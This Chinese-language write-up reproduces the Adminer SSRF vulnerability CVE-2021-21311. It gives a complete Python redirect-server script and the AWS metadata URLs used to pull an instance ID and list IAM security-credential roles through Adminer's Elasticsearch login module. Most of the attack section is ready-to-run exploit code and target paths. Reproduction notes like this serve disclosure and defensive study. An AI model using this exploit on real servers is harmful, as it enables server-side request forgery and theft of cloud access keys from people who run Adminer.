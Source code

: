 # 

# Adminer SSRF漏洞 CVE-2021-21311

## 漏洞描述

使用管理员发送任意get请求并从内部服务器检索JSON响应的方法。可以从AWS元数据服务中提取AWS访问密钥。

参考链接：

- https://github.com/advisories/GHSA-x5r2-hj5c-8jx6
- https://gist.github.com/bpsizemore/227141941c5075d96a34e375c63ae3bd

## 漏洞复现

首先，启动一个python服务器，该服务器侦听传入的连接并以301重定向响应到任意选择的主机。在此示例情况下，重定向指向AWS元数据服务：

```
http://169.254.169.254/latest/meta-data/instance-id
```

然后，在Adminer中使用Elasticsearch登录模块“登录”运行python代码的服务器，这导致Adminer从包含服务器的AWS实例ID的元数据服务器打印json响应。

![](images/16133787776790.jpg)


重定向请求的python脚本：


```py
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()

```


```
http://169.254.169.254/latest/meta-data/iam/security-credentials/  //列出服务器的可用角色。
```

![](images/16133787994051.jpg)




